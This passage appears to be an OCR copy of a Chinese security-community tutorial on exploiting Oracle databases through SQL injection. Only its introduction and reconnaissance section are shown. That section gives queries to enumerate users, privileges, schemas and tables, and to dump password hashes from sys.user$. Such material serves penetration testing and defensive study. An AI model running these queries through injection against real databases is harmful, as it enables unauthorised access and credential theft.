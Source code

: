 # Hacking Oracle with Sql Injection

2013/01/07 0:05 | [yy520](http://drops.wooyun.org/author/yy520 "由 yy520 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

0x0 前言

0x1 信息刺探 

0x2 权限提升 

0x3 执行命令 

0x4 文件系统 

0x5 访问网络 

0x6 总结

0x7 参考文献

**0x0 前言**

本文主要讨论如何通过一个 sql inject 来最大限度的取得各种信息和权限，文章绝大多数技术都是前人提出，膜拜各位牛人 的同时，也非常感谢牛人们的分享，上帝与你们同在 ：） 本文仅起着总结作用，测试数据库分别为：Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 和 Oracle Database 11g Enterprise Edition Release 11.2.0.1.0 ，默认是 Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 最后，倘若您有更好的见解或者方法，请不吝赐教

**0x1 信息刺探**

通常刷到一个 sql inject 之后，一般步骤都是查找敏感信息，oracle 自带了很多数据字典，可以很方便我们查找信息

```
-- list version   select banner from v$version where rownum=1 ; -- oracle version

-- list user   select user from dual; -- current user   select username from user_users; -- current user   select username from all_users; -- all user , the current user can see...   select username from dba_users; -- all user , need pris

-- list role   select role from session_roles; -- current role

-- list privs   select privilege from user_sys_privs; -- privs the current user has   select privilege from role_sys_privs; -- privs the current role has   select privilege from session_privs; -- the all privs that current user has = user_sys_privs + role_sys_privs   select * from dba_sys_privs; -- all user's privs , need privs

-- list password hash   select name, password, astatus from sys.user$; -- password hash <=10g , need privs   select name, password, spare4 from sys.user$; -- password has 11g , need privs

-- list database   select global_name from global_name; -- current database   select sys.database_name from dual; -- current database   select name from v$database; -- current database name , need privs   select instance_name from v$instance; -- current database name , need privs

-- list schemas   select distinct owner from all_tables; -- all schema

-- list tables   select table_name from all_tables where owner='xxx'; -- all table name

-- list columns   select owner,table_name,column_name from all_tab_columns where table_name='xxx';   select owner,table_name,column_name from all_tab_cols where table_name='xxx'; 
```
